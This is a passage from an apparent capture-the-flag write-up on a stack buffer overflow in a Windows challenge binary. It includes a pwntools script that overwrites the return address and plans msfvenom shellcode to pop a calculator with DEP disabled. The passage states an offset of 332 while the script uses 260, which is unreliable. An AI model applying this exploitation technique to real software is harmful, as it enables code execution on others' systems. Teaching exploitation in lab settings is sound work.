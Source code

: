 we see that the offset to our return address is actually 332.

Just to verify, we will try to send another payload to our program

```py
from pwn import *

p = process('./window_of_opportunity.exe')

payload = b"A"*260 + b"BBBB"

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
```

If we run this script and run `go` in windbg,

![image](windbg1.png)

We see that we crash at 0x42424242 which is BBBB in ascii. Bingo!

### STRATEGIZING OUR PAYLOAD

Now that we know the number of bytes required for us to reach the return address, we can actually start with the actual exploit.

Since DEP is disabled, this means that our stack is actually executable and we can simply run a shellcode to run any arbitrary command.

For simplicity, we will aim to pop a calculator on our computer. Before we generate our payload with msfvenom, we have to identify the bad bytes in our input _(bytes that will terminate our input and cause our exploit to fail)_.
